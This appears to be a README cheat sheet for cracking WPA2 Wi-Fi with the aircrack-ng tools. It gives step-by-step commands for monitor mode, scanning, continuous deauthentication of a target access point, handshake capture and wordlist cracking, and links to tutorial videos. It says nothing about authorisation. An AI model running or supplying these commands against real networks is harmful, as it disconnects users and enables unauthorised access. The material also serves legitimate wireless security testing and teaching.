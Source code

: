 
### prep interface

```airmon-ng check kill```

```sudo airmon-ng start wlan1```

* now our monitor interface will be wlan1mon

----

### scanning BSSID's near-by

AiroDump ALL in channels 1-165 and ignoring negative one.

```airodump-ng -c 1-165 wlan1mon --ignore-negative-one```


Or to filter and display ONLY the BSSID (MAC Address once known), try the below.

```sudo airodump-ng wlan1mon -d xx:xx:xx:xx:xx:xx```

----

### de-auth BSSID 

```aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan1mon```

----

### Capture to file (4 way handshake)

"<i>-c X</i>". This should be the channel of the BSSID we wish to target after "-c".
-w will output the capture to the filename in this example as "wifi-capture".

```airodump-ng -w wifi-capture -c X --bssid xx:xx:xx:xx:xx:xx wlan1mon```

----

### Cracking the handshake capture

The example below uses the capture file example of "wifi-capture" and the ".cap" file.

This then uses aircrack-ng to process the capture file using the "rockyou.txt" wordlist.

*Note there are other wordlists you could use, but the rockyou wordlist is quite popular and good.

```aircrack-ng wifi-capture.cap -w /usr/share/wordlists/rockyou.txt```

----

David Bombal has some videos showing further how this works. Links below.

[Cracking WiFi WPA2 Handshake](https://www.youtube.com/watch?v=WfYxrLaqlN8)

Paul from TallPaulTech (CWNE88) also explains the "4 way handshake" in this [video](https://www.youtube.com/watch?v=vHIRmG_BzQI)
